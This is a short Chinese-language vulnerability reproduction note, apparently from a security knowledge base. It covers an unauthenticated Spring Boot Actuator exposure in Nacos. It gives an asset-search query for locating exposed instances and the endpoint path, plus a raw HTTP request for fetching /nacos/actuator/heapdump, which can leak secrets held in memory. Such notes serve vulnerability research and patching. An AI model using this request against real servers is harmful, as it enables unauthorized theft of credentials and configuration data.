 # Nacos存在Spring boot Actuator未授权漏洞

# 一、漏洞简介
<font style="color:rgb(63, 63, 63);">Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。Nacos存在Spring boot Actuator未授权漏洞</font>

# <font style="color:rgb(51, 51, 51);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">Nacos </font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="Nacos"`
+ 特征

![1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937.png](./img/tCM8yy1R79KWVs-U/1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937-922909.png)

# 四、漏洞复现
```plain
/nacos/actuator/
```

![1723181812776-57f9f2be-fd9e-4eac-9788-48ca8d2386d1.png](./img/tCM8yy1R79KWVs-U/1723181812776-57f9f2be-fd9e-4eac-9788-48ca8d2386d1-338408.png)

```plain
HEAD /nacos/actuator/heapdump HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
```

![1729412390938-c97ffc26-4ec1-4ed4-b87c-0db483ad416f.png](./img/tCM8yy1R79KWVs-U/1729412390938-c97ffc26-4ec1-4ed4-b87c-0db483ad416f-308532.png)



> 更新: 2024-10-28 15:59:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/utanzrai31cospcx>